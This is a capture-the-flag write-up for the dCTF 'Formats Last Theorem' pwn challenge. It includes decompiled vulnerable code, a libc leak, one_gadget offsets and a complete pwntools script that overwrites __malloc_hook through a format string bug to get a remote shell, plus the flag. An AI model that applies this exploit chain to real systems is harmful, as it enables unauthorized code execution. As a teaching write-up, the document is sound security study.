 ```yaml
---
title: dCTF - Formats Last Theorem(pwn)
date: 2021-05-27T00:00:00Z
draft: false
description: full relro, fsb, malloc/free_hook
tocOpen: true
---
```


## Challenge Description
---
> I dare you to hook the malloc
>
> nc dctf-chall-formats-last-theorem.westeurope.azurecontainer.io 7482
>
> [formats_last_theorem](attachments/formats_last_theorem) [Dockerfile](attachments/Dockerfile)

<br>

### Overview
---

We are provided with the binary and a docker file. We first check the security features of the binary.

<pre>
[<span style="font-weight:bold;color:#7f7f7f;"></span><span style="font-weight:bold;color:#5c5cff;">*</span>] &apos;/media/sf_dabian/Challenges/dctf/pwn/lft/formats_last_theorem&apos;
    Arch:     amd64-64-little
    RELRO:    <span style="color:#00cd00;">Full RELRO</span>
    Stack:    <span style="color:#cd0000;">No canary found</span>
    NX:       <span style="color:#00cd00;">NX enabled</span>
    PIE:      <span style="color:#00cd00;">PIE enabled</span>
</pre>

Connecting to the service, we get prompted for an input, which seems to continuously loop and prompt for more input.

```
➜ nc dctf-chall-formats-last-theorem.westeurope.azurecontainer.io 7482

I won't ask you, what your name is. It's getting kinda old at this point
hi
you entered
hi

I won't ask you, what your name is. It's getting kinda old at this point
%p
you entered
0x7f56c7da77e3
```

Seeing that the program echoes our input back to us, we try a format string and voila! We evidently have a format string exploit.

Decompiling in IDA, we get the following psuedo source code.

```c
void __noreturn vuln()
{
  char format[104]; // [rsp+0h] [rbp-70h] BYREF
  unsigned __int64 v1; // [rsp+68h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  while ( 1 )
  {
    puts("I won't ask you, what your name is. It's getting kinda old at this point");
    __isoc99_scanf("%100s", format);
    puts("you entered");
    printf(format);
    puts(&byte_8B3);
    puts(&byte_8B3);
  }
}

int main()
{
  alarm(0xAu);
  vuln();
}

```

We also look at our DockerFile,

```
FROM ubuntu:18.04
RUN apt-get update && apt-get install -y make gcc socat

RUN groupadd pilot
RUN useradd pilot --gid pilot

COPY ./app /app
WORKDIR /app

ENTRYPOINT [ "bash", "/app/startService.sh" ]
```

<br>

### Exploitation Ideas
---

We have a format string exploit with unlimited inputs, that should make it easy. However, **FULL RELRO** is enabled, that means it is going to be impossible to overwrite anything in the `Global Offset Table`. Hmm that makes things difficult, the challenge description hints to `malloc`.

Interesting! Let's look at `printf` source code,

```c
if (width >= WORK_BUFFER_SIZE - 32)
  {
    size_t needed = ((size_t) width + 32) * sizeof (CHAR_T);
    ...
    workstart = (CHAR_T *) malloc (needed);
    ...
  }

```

By searching malloc in `vfprintf.c`, it seems that we can trigger `malloc` and the following `free` if the width field of the format placeholder is large enough.

Since `__malloc_hook` and `__free_hook` are functions in the libc, and not in the `GOT`, we can overwrite them easily despite `FULL RELRO` by providing large format placeholder.

Hence, if you think about it, we are easily able to overwrite `__malloc_hook` or `__free_hook` with a `one_gadget` and hence get a shell.

```
printf -> __malloc_hook -> pop shell
```

However, since `PIE` is enabled, we have to leak our `libc.address` off the stack. And for us to get a correct offset for a `libc function` in the stack, we have to be running our binary on the same `libc` and `ld` as them.

Here is where our DockerFile comes in.

`FROM ubuntu:18.04`

Every version of `Ubuntu` has its own `libc` and `ld`. Since we have the ubuntu version, we can just obtain our `libc` and `ld` as well.

Let's modify the DockerFile to make our life easy.

```
FROM ubuntu:18.04
CMD [ "sha1sum", "/lib/x86_64-linux-gnu/libc.so.6" ]
```

and run it. We can use [libc-database](https://github.com/niklasb/libc-database) identify for this.

![image](attachments/fltdocker.png)

Let's start exploiting!

<br>

### Exploitation
---

First we load our `libc` and `ld` to our binary with `patchelf`.

```
patchelf --replace-needed libc.so.6 /root/libc-database/libs/libc6_2.27-3ubuntu1.4_amd64/libc-2.27.so ./formats_last_theorem

patchelf --set-interpreter /root/libc-database/libs/libc6_2.27-3ubuntu1.4_amd64/ld-2.27.so ./formats_last_theorem
```

Using `GDB`, we can find that the 3rd format string offset points to `write+20`.

```
I won't ask you, what your name is. It's getting kinda old at this point
%3$p
you entered
0x7ffff7af2224

pwndbg> x 0x7ffff7af2224
0x7ffff7af2224 <write+20>:	0xf0003d48
```

We also need our `one_gadget`.

```
➜ one_gadget /root/libc-database/libs/libc6_2.27-3ubuntu1.4_amd64/libc.so.6

0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
 rsp & 0xf == 0
 rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
 [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
 [rsp+0x70] == NULL
```

We will take `0x10a41c`.

Let's write our exploit script!

With `fmtstr_payload`, we are easily able to overwrite `__malloc_hook` with our one_gadget. However, it did not work initially at first and it took a little big of messing around of settings to get it to work with an extra argument `write_size='short'`.

After we overwrite `__malloc_hook` with our `one_gadget`, we send a large enough format string placeholder to trigger `malloc` and get our shell.

```py

context.binary = elf = ELF('formats_last_theorem')
#p = process('./formats_last_theorem')
p = remote('dctf-chall-formats-last-theorem.westeurope.azurecontainer.io', 7482)
libc = ELF('/root/libc-database/libs/libc6_2.27-3ubuntu1.4_amd64/libc-2.27.so')

p.sendlineafter('point\n', '%3$p')
p.recvuntil('you entered\n')
libcwrite = int(p.recvline().strip().decode(), 16)
libc.address = libcwrite - libc.sym.write - 20

log.warn(f"libc base @ {hex(libc.address)}")

payload = fmtstr_payload(6, {libc.sym.__malloc_hook: (0x10a41c + libc.address)}, write_size='short')
p.sendlineafter('point\n', payload)
p.sendlineafter('point\n', '%10000$c')
p.interactive()
#: dctf{N0t_all_7h30r3ms_s0und_g00d}
```
